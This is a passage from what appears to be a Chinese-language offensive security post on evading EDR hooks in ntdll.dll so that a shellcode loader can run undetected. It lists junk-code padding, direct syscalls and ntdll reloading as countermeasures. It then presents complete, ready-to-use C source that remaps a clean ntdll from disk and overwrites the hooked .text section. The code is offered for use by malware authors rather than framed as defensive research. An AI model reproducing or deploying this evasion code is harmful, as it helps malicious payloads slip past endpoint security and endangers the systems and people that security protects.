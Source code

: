 当我们再调用VirtualAlloc时,edr会修改ntdll中的该函数使其jmp到edr内置的dll中,edr会

通过你的函数调用去查杀

**那么重点来了,如何去对抗呢?**

**1.在shellcodeloader时添加大量垃圾函数或者执行一些东西打乱edr查杀**

**2.直接通过syscall绕过edr的hook(某数字杀软晶核的环境下依然会被检测到)**

**3.重新加载一份干净的ntdll文件**

这里着重给大家介绍第三种,直接附上源码安心食用即可

```
int main()
{
    HANDLE process = GetCurrentProcess();
    MODULEINFO mi = {};
    HMODULE ntdllModule = GetModuleHandleA("ntdll.dll");
    GetModuleInformation(process, ntdllModule, &amp;mi, sizeof(mi));
    LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;

    HANDLE ntdllFile = CreateFileA("c:\\windows\\system32\\ntdll.dll",
  GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
    HANDLE ntdllMapping = CreateFileMapping(ntdllFile, NULL, 
  PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
    LPVOID ntdllMappingAddress = MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);

    PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
    PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase + 
  hookedDosHeader-&gt;e_lfanew);

    for (WORD i = 0; i &lt; hookedNtHeader-&gt;FileHeader.NumberOfSections; i++) {
        PIMAGE_SECTION_HEADER hookedSectionHeader = 
    (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) 
    + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));

        if (!strcmp((char*)hookedSectionHeader-&gt;Name, (char*)".text")) {
            DWORD oldProtection = 0;
            bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + 
      (DWORD_PTR)hookedSectionHeader-&gt;VirtualAddress), 
      hookedSectionHeader-&gt;Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &amp;oldProtection);
            memcpy((LPVOID)((DWORD_PTR)ntdllBase + 
      (DWORD_PTR)hookedSectionHeader-&gt;VirtualAddress), 
      (LPVOID)((DWORD_PTR)ntdllMappingAddress +
      (DWORD_PTR)hookedSectionHeader-&gt;VirtualAddress),
      hookedSectionHeader-&gt;Misc.VirtualSize);
            isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase 
      + (DWORD_PTR)hookedSectionHeader-&gt;VirtualAddress), 
      hookedSectionHeader-&gt;Misc.VirtualSize, oldProtection, &amp;oldProtection);
        }
    }
    CloseHandle(process);
    CloseHandle(ntdllFile);
    CloseHandle(ntdllMapping);
    FreeLibrary(ntdllModule);

    return 0;
}

```
